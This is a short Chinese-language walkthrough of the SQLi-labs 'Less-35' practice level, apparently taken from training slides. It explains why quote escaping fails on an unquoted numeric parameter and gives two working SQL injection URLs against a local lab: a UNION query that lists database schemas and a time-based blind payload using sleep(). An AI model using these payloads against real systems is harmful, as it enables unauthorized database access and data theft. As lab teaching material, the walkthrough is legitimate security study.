

# Less-35
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
其实本关和34基本相同，我们首先分析一下代码：
$id=check_addslashes($_GET[‘id’]);  首先还是对id的值进行过滤处理
$sql=“SELECT * FROM users WHERE id=$id LIMIT 0,1”; 在这个位置中，id值没有经过单引号的包裹，所以我们只要在注入的时候防止我们构造的sql注入句子中避免单引号等即可！
法一： 联合查询注入
http://127.0.0.1/sqli/Less-35/?id=-1 union select 1,2,group_concat(schema_name) from    information_schema.schemata#
法二：延时注入
http://127.0.0.1/sqli/Less-35/?id=1 and  if( length(database())=1, 1, sleep(5)    )#通过这样的方式进行判断。